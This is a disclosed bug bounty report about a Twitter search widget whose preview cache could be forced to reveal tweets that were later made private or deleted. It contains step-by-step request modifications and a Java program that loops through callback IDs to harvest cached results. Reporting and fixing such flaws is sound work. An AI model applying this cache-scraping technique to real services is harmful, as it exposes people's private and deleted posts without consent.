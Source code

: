 # Opportunity to obtain private tweets through search widget preview caches

## Report Details
- **Report ID**: 263760
- **URL**: https://hackerone.com/reports/263760
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-08-27T10:41:58.950Z
- **Disclosed**: 2017-11-11T03:29:27.509Z

## Reporter
- **Username**: csanuragjain
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
The search widget functionality at https://twitter.com/settings/widgets/new uses ██████████ to show search results.
Issue here is that ████ seems to be caching the results, despite of no-cache request header and I can force ██████ to show me the cached results.
So, if their is a user x who decides to change his profile from public to private, then I can use ██████████ to view his old tweets which are now private, provided his tweets were cached by ██████. Similarly, it can be used to restore deleted tweets of a user where caching was performed pre-deletion.

**Problem**

1) We can pass Accept-Encoding: gzip, deflate, br in request header to enforce server to show cache results
2) The callback function varies from __twttr.callbacks.tl_i1_preview_old to __twttr.callbacks.tl_i1000_preview_old (I assume). Due to this, url having __twttr.callbacks.tl_i1_preview_old is considered different from __twttr.callbacks.tl_i1000_preview_old. So I can get upto 1000 cache results calling callback function one by one.

**Steps to Reproduce**
*) You can use the sample program in below section to search for available cache for any twitter user,list etc. Make sure to use Accept-Encoding: gzip, deflate, br to enforce caching (program is including this header)
1) Navigate to https://twitter.com/settings/widgets/new
2) Search for countblank
3) Since countblank is private profile so only 2 tweets came which are not related to countblank account
4) Again search for countblank while intercepting the request in Burp Suite. You will see a call like below. Just send it to Repeater.
https://█████/widgets/timelines/preview?all_results=on&callback=__twttr.callbacks.tl_i<Number will vary here>_preview_old&do_not_track=false&expand_media=false&height=350&lang=en&query=<Search string>&safe_mode=on&suppress_response_codes=true&theme=light&timeline_type=search

5) Make the below changes to force seeing the cached result (Notice we added Accept-Encoding: gzip, deflate, br to enforce caching):

Original Request:
GET /widgets/timelines/preview?all_results=on&callback=__twttr.callbacks.tl_i<some number>_preview_old&do_not_track=false&expand_media=false&height=350&lang=en&query=countblank&safe_mode=on&suppress_response_codes=true&theme=light&timeline_type=search HTTP/1.1
Host: █████
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: */*
Referer: https://twitter.com/settings/widgets/new
Accept-Language: en-US,en;q=0.8
Cookie: lang=en

New Request (Make sure to change to __twttr.callbacks.tl_i73_preview_old since this cache has not been overwritten by correct data):
GET /widgets/timelines/preview?all_results=on&callback=__██████ HTTP/1.1
Host: ███
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: */*
Referer: https://twitter.com/settings/widgets/new
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.8
Cookie: lang=en

6) Forward the new request
7) You can now more than 2 tweets including private profile tweets. In case, you cant see much result then you need to change i73 to i1...i100 in callback function __twttr.callbacks.tl_i73_preview_old.
8) This happened since countblank tweet result was cached when it used to be public profile.
9) Similarly, if post caching tweet is deleted then this technique can help you retrieve that deleted tweet

**Sample program to retreive this cache**
```
	public static void getJSON()
	{
		try {
			String old="";
			Scanner s1=new Scanner(System.in);
			System.out.println("Enter query");
			String query=s1.nextLine();
			//String query="testAcc1989";
			Set<String> s=new HashSet<String>();
			for(int i=1;i<200;i++)
			{
				String url="https://█████/widgets/timelines/preview?all_results=on&callback=__twttr.callbacks.tl_i"+i+"█████";	
			Document doc = Jsoup.connect(url)
					.header("Host", "██████████")
					.header("Cache-control", "max-age=31556926").header("Cache-store", "max-age=31556926")
					.userAgent("Mozilla/5.0 (Windows NT 10.0; WOW64; rv:54.0) Gecko/20100101 Firefox/54.0")
					.header("Accept-Encoding", "gzip, deflate, br") // Caching 
					.ignoreContentType(true)
					.get();
			String newVal=doc.html().substring(doc.html().indexOf("config"));
			if(!old.equals(newVal) && s.add(newVal)){
			old=newVal;
			System.out.println("-------------------------------------------------------Callback url which have cache "+url);
			//System.out.println(doc.html()); //Use this to print cached version
			}
			}
			
		} catch (IOException e) {
			// TODO Auto-generated catch block
			e.printStackTrace();
		}
	}
```
**Risk**
This can be used to extract private and deleted tweets and other resources

**Resolution**
I can see the request header for no-cache being passed but somehow server is not respecting the same. Make sure that results are not cached and updated data is always presented to user.

## Attachments
- Cached_result_enforced_show_private_results_as_well.PNG
- No_cache_has_correct_response_of_2_tweet.PNG
- Search_widget_showing_only_2_result_for_countblank.PNG
